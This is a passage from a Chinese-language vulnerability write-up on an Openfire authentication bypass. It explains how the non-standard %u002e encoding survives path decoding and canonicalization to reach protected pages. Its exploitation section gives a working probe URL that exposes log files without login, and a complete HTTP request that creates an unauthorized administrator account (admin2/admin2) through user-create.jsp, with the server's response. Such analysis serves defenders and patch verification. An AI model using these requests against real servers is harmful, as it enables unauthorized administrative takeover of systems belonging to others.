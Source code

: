 首先URIUtil.decodePath  
将 /setup/setup-s/%u002e%u002e/%u002e%u002e/log.jsp  
解码为 /setup/setup-s/../../log.jsp  
，接着 URIUtil.canonicalPath  
方法将该路径规范化处理成 /log.jsp  
。  
  
在维基百科的说法中，  
 %uxxxx这种形式的编码是一种非标准的Unicode字符编码方式，其中xxxx表示一个UTF-16代码单元，由四个十六进制数字表示。这种行为没有被任何RFC规范指定，并且被W3C拒绝。  
  
![](https://mmbiz.qpic.cn/mmbiz_svg/ofvnGicEPbfRGPiboDKmcUcFCCeqkQ2w0225Siaicb77yLscaY5dM9VJk2xVib45rY2fNceWOdLY2QvgJHRibkek2SqQBRncXTJ79h/640?wx_fmt=svg "")  
  
  
  
  
漏洞利用  
  
**路径遍历**  
  
在一个未登录Openfire的浏览器中，通过如下请求路径，如果显示部分日志文件则表明存在漏洞，如果重定向到登录页面，则表明无漏洞。  
```
http://localhost:9090/setup/setup-s/%u002e%u002e/%u002e%u002e/log.jsp
```  
  
  
**未授权创建用户**  
  
创建一个账号和密码为admin2/admin2的管理员用户。  
```
GET /setup/setup-s/%u002e%u002e/%u002e%u002e/user-create.jsp?csrf=Jm6f0wY78QMP8jj&username=admin2&name=admin2&email=admin2%40example.com&password=admin2&passwordConfirm=admin2&isadmin=on&create=Create+User HTTP/1.1
Host: 
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.5414.120 Safari/537.36
Connection: close
Cache-Control: max-age=0
```  
  
```
HTTP/1.1 200 OK
Connection: close
Date: Wed, 14 Jun 2023 06:47:48 GMT
X-Frame-Options: SAMEORIGIN
Content-Type: text/html;charset=utf-8
Set-Cookie: csrf=NX7COAs1lgRsMdd; Path=/; HttpOnly
Expires: Thu, 01 Jan 1970 00:00:00 GMT
Content-Length: 6187


    Exception:
……
```  
  